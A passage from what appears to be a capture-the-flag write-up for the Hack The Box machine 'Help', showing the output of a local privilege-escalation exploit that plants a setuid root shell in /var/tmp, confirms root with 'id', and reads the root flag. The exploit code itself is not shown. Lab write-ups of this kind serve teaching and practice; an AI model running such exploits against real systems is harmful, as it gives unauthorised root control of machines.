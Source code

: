       fewest lines of code in order to reduce attack surface.
      It cannot be run by itself.
    [.] Race #297 of 1000 ...
    [+] got root! /var/tmp/.sh (uid=0 gid=0)
    [.] Cleaning up...
    [+] Success:
    -rwsr-xr-x 1 root root 6336 Jun  3 15:09 /var/tmp/.sh
    [.] Launching root shell: /var/tmp/.sh
    # id
    uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
    

With any of these root shells, I can get `root.txt`:

    
    
    root@help:/root# cat root.txt 
    b7fe6082...
    

[](/2019/06/08/htb-help.html)

